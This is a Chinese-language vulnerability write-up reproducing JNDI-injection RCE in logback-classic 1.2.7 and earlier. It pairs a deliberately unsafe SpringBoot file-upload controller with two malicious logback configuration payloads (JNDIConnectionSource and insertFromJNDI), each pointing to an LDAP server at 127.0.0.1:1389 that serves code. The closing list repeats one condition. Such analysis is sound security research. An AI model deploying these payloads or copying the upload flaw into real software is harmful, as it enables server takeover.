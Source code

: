 ##  影响版本

logback-classic <=1.2.7

##  测试环境

 SpringBoot 2.6.1 

 JDK 8u111(请注意 JNDI 可利用的版本)

## 复现项目地址

https://github.com/cn-panda/logbackRceDemo

项目是用 SpringBoot 写的一个简单的漏洞 Demo 环境，主要是`UploadController`中的`upload`函数：

```java
public String upload(@RequestParam("file") MultipartFile file) {  
    if (file.isEmpty()) {  
        return "Upload failed, please select a file！！";  
    }  
  
    String fileName = file.getOriginalFilename();  
    String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
    System.out.println(filePath);  
    File dest = new File(filePath,fileName);  
    try {  
        file.transferTo(dest);  
        LOGGER.info("Upload succeeded!!");  
        return "Upload succeeded!!";  
    } catch (IOException e) {  
        LOGGER.error(e.toString(), e);  
    }  
    return "Upload failed!!";  
}
```

该函数主要功能是用来上传文件。

项目中 logback 的配置文件如下：

![[../image/Pasted image 20211214164218.png]]

关键点在于`scan`属性，该属性是 logback 用于定时扫描配置文件的变化，若检测到配置文件发生改变，则实时更新加载配置文件

在这里，我故意的写了一个存在任意文件上传的漏洞环境，然后借助 loghack 配置文件中的`scan`属性，配合logback漏洞，实现 RCE

# 漏洞分析

## JNDIConnectionSource
在 logback 中同样类似于log4j1.x 中  JDBCAppender 的 Appender —— **DBAppender**，DBAppender 中有一个名为`ConnectionSource`的接口

该接口提供了一种可插拔式的方式为需要使用 `java.sql.Connection` 的 logback 类获取 JDBC 连接

目前有三种实现类，分别为： `DriverManagerConnectionSource` 、`DataSourceConnectionSource`与 `JNDIConnectionSource`。

这三种实现类每一种都可以用来达到 RCE

但和另外两种实现类不同的是，`JNDIConnectionSource` 实现 RCE 的方式更方便，因为和它可以不借助其他依赖组件的 gadget，仅依靠应用提供的本身机制（JNDI）即可实现 RCE， 但 `DriverManagerConnectionSource` 、`DataSourceConnectionSource`必须依赖 JDBC 反序列漏洞才能够实现 RCE，限制比较大，故这里不做演示。

**JNDIConnectionSource** 是 logback 自带的方法，从名字就可以看出来，它通过 JNDI 获取 javax.sql.DataSource，然后再获取 java.sql.Connection 实例

实际上可以通过观察`JNDIConnectionSource.java`中`getConnection`方法的代码可以发现：

![[../image/Pasted image 20211214155414.png]]

如果dataSource 为空，那么就令`dataSource = lookupDataSource();`

然后在**lookupDataSource()** 中触发 `lookup`:

![[../image/Pasted image 20211214155302.png]]

#### 漏洞复现

首先下载复现源码，然后运行`RceDemoApplication`项目的main 函数：

![[../image/Pasted image 20211214160245.png]]

然后打开浏览器，在地址栏中输入：`http://localhost:8080` 即可访问项目首页

![[../image/Pasted image 20211214160704.png]]

然后在本地创建一个`logback-spring.xml`的配置文件，文件内容如下：

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
    　　　　　 <encoder>  
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
    　　　　　 </encoder>  
    　　　</appender>  
    <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
        <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
            <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
        </connectionSource>  
    </appender>  
  
    　　　<root level="DEBUG">  
    　　　　　　<appender-ref ref="STDOUT" />  
    　　　</root>  
</configuration>
```

然后再访问`http://localhost:8080/upload.html`，选择该文件后点击上传按钮，抓包可以看到文件上传成功：

![[../image/Pasted image 20211214163728.png]]

等待十秒钟后，即可成功执行 RCE

![[../image/Pasted image 20211214164425.png]]

## insertFromJNDI

除了`JNDIConnectionSource`外，实际上还有一种配置可以实现 JNDI 注入—— **insertFromJNDI**

`<insertFromJNDI>` 是 logback 的配置标签，用于设置属性的范围，其支持通过 JNDI 的方式来获取属性值，同样的，如果修改`<insertFromJNDI>` 标签的内容，同样可以实现 JNDI 注入

当使用`<insertFromJNDI>` 标签的时候，意味着会调用`InsertFromJNDIAction.java`文件中的`begin`方法，在该方法中会使用`JNDIUtil.lookup` 方法，从而触发漏洞：

![[../image/Pasted image 20211214170343.png]]

### 漏洞复现

和 #JNDIConnectionSource 中复现步骤大致相同，只是上传文件中利用的payload 需要改变，如下：

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
    　　　　　 <encoder>
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
    　　　　　 </encoder>
    　　　</appender>
    <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  

　　　<root level="DEBUG">
    　　　　　　<appender-ref ref="STDOUT" />
    　　　</root>
</configuration>
```

上传该配置文件：

![[../image/Pasted image 20211214170840.png]]

同样的，等待 10 秒后，即可触发 RCE：

![[../image/Pasted image 20211214171037.png]]

# 总结

总的来说，这个漏洞的触发方式还是比较困难的，除非能够满足以下条件：

1、能够修改或者覆盖 logback 的配置文件
2、能够使得修改的配置文件生效
2、能够使得修改的配置文件生效
